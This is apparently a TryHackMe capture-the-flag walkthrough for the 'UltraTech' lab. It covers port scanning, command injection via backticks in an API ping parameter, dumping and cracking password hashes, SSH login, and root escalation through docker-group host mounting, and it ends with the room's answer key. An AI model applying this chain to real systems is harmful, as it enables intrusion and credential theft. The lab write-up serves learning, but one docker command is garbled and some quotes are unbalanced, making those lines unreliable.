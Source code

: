 # UltraTech | TryHackMe Walkthrough

**Room:** UltraTech  
**Difficulty:** Medium  
**Tags:** Enumeration, SQL Injection, Command Injection, Privilege Escalation  

---

##  1. Reconnaissance

Scan all ports:

```bash
nmap -sC -sV -Pn -p- -oN  10.10.10.10
```

**Results:**
- 21/tcp → vsftpd  
- 22/tcp → OpenSSH  
- 8081/tcp → Node.js Express  
- 31331/tcp → Apache HTTPD (Ubuntu)  

---

##  2. Web Enumeration

### Port 8081 (Node.js Express API)

```bash
gobuster dir -u http://10.10.10.10:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**  
```
/auth
/ping
```

### Port 31331 (Apache)

```bash
gobuster dir -u http://10.10.10.10:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**
```
/js
```

Inside `/js`, there is `api.js` which points to `/ping?ip=`.

---

##  3. Exploiting the API (Command Injection)

Test the API:

```bash
curl "http://10.10.10.10:8081/ping?ip=`whoami`
```

It works.  
Try injection:

```bash
curl "http://10.10.10.10:8081/ping?ip=`pwd`
```

Not working (filtered).  
But command substitution works:

```bash
curl "http://10.10.10.10:8081/ping?ip=`ls -la`"
```

**Result:** found file `utech.db.sqlite`.

---

##  4. Extracting the Database

Read contents:

```bash
curl "http://10.10.10.10:8081/ping?ip=`cat utech.db.sqlite`"
```

The SQLite database contains usernames and hashes.

---

##  5. Users and Hashes

Extracted hashes:

```
r00t : f357a0c52799563c7c7b76c1e7543a32
admin: 0d0ea5111e3c1def594c1684e3b9be84
```

Crack with hashcat:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

**Result:**  
```
r00t : cyberpunk
```

---

##  6. SSH Access

```bash
ssh r00t@10.10.10.10
```

Password: `cyberpunk`

---

##  7. Privilege Check

```bash
id
```

**Output:**
```
uid=1000(r00t) gid=1000(r00t) groups=1000(r00t),999(docker)
```

The user belongs to the **docker** group.

---

##  8. Privilege Escalation via Docker

Privilege Escalation
We will use the GTFOBIN to elevate privileges on the target machine. It tells us that in order to get out of the restricted environment of docker, we need to spawn an interactive shell inside the docker.

We run the script directly from the GTFOBIN. However, it gave us an error stating that it was unable to find the alpine image. Therefore, we use the docker ps -a command to list the images available on this Docker instance. We observe that there is an image named bash. As a result, we replace the image name from alpine to bash in the command. After running the modified command again, we find that we are able to gain root access. Finally, we use the cat command to read the private key for the root user, as required to conclude this machine.

Run container mounting host:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker ps -a
```

Change root:

```bash
docv /ker run -:/mnt --rm -it bash chroot /mnt sh
```

Now we are root 

---

##  9. Summary (Answers)

1. Port 8081 → Node.js Express  
2. Non-standard port → 31331  
3. Running on 31331 → Apache  
4. Distro → Ubuntu  
5. Number of API routes → 2  
6. Database file → `utech.db.sqlite`  
7. MD5 hash of r00t → `f357a0c52799563c7c7b76c1e7543a32`  
8. Exploitation method → command substitution (`` `...` ``)  
9. Privilege escalation → docker group → root  
